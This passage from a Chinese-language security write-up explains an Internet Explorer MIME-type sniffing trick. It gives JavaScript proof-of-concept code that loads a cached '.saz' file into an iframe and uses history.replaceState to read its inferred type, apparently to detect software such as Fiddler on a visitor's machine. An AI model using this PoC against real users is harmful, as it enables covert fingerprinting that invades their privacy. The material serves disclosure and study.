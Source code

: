**<br>**

**用代码复现，码农本色出演**

我们可以在iframe中尝试传递一个“.saz”文件（Fiddler）：



```
iframe = document.createElement("iframe");
iframe.src = "saz.saz";  // Load a saz file
document.body.appendChild(iframe);
```

我*！IE浏览器会尝试下载这个文件，并且抛出一个警告：

[![](https://p0.ssl.qhimg.com/t01e5c2853b6b1f71cc.png)](https://p0.ssl.qhimg.com/t01e5c2853b6b1f71cc.png)

这肯定是不能接受的，黑客一般都是完美主义者。而且这样做的话，他们的攻击行为就很容易被发现了。我们可以使用“history.pushState”或者“history.replaceState”来解决这个问题：



```
iframe.contentWindow.history.pushState("","","saz.saz");
(iframe.contentDocument.mimeType);
```

[![](https://p5.ssl.qhimg.com/t01fc0aea9cab16202a.png)](https://p5.ssl.qhimg.com/t01fc0aea9cab16202a.png)

你以为这样就成功了吗？大错特错！我们只是运气好而已，因为saz文件之前已经下载过了，并且浏览器进行了缓存。当IE浏览器通过一个URL地址来请求数据时，它首先会尝试猜测请求文件的类型，最后才会检查文件的扩展名。此时，我们甚至还没有获取到一个有效的saz文件，网络服务器返回的响应数据是默认的HTTP状态码200，而Content-Type也是默认的“application/octet-stream”。但是IE浏览器会推测这是一个Fiddler文件，因为它的扩展名太明显了。

<br>

**构建PoC，证明自己的时候到了**

```
mg = new Image();
img.src = "saz.saz"; // HTTP 200, any length and content-type
 
// The saz is precached. Let's create the iframe.
iframe = document.createElement("iframe");
 
// Load anything inside it because about:blank does not work with replaceState.
iframe.src = "/favicon.ico";
document.body.appendChild(iframe);
 
// Set the location of the iframe to the saz file
iframe.contentWindow.history.replaceState("", "", img.src);
 
// Bingo!
(iframe.contentDocument.mimeType);
```



**参考资源**

在IE浏览器中进行实时测试：［[传送门](http://www.cracking.com.ar/demos/mimetype/)］

下载相关文件：［[传送门](https://goo.gl/Kq3yBz)］

如果你使用的是Linux或者Mac的话，可以观看演示视频：



 

<br>


